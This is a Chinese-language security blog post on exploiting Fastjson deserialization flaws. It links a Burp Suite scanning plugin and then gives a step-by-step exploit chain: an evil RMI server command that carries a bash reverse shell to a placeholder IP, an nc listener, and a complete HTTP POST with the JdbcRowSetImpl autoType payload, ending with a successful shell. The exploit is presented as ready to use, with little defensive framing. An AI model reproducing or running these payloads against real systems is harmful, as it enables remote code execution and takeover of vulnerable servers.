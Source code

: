 #  Fastjson 漏洞利用技巧   
 白帽子   2023-10-15 00:00  
  
每次看到json数据包，都难免会想起Fastjson以及它多个版本存在的漏洞。  
  
如何实现自动化检测以及简化攻击步骤，从而提升漏洞发现能力，让你更有效率的Tips，在这里和大家分享下。  
  
**01、自动化漏洞检测**  
  
一款基于BurpSuite的被动式FastJson检测插件，这个插件会对BurpSuite传进来的带有json数据的请求包进行检测。  
  
Github项目地址：  
```
https://github.com/pmiaowu/BurpFastJsonScan
```  
  
**02、简化攻击步骤**  
  
在这里我们可以使用一款JNDI服务利用工具，来简化fastjson漏洞检测的步骤，辅助漏洞利用和渗透。  
  
Github项目地址：  
```
https://github.com/wyzxxz/jndi_tool
```  
  
Fstjson漏洞利用：  
  
(1)开启RMI服务  
```
java -cp jndi_tool.jar jndi.EvilRMIServer 1099 8888 "bash -i >&/dev/tcp/xxxx.xxx.xxx.xxx/12345 0>&1"
```  
  
(2)设置监听服务器  
```
nc -lvvp 12345
```  
  
(3)构造请求发送payload  
```
POST /login HTTP/1.1
Host: xxx.xxx.xxx.xxx
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 111

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://xxx.xxx.xxx.xxx:1099/Object","autoCommit":true}
```  
  
(4)目标系统收到POST请求，成功反弹shell。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nYYYlPjm3lbOicthpPqFibHmEQ9X6WpzPEAZCZbxX7M59INdoj5muVicibByzPicaaGd2QGUFBqticibZTg/640?wx_fmt=png "")  
  
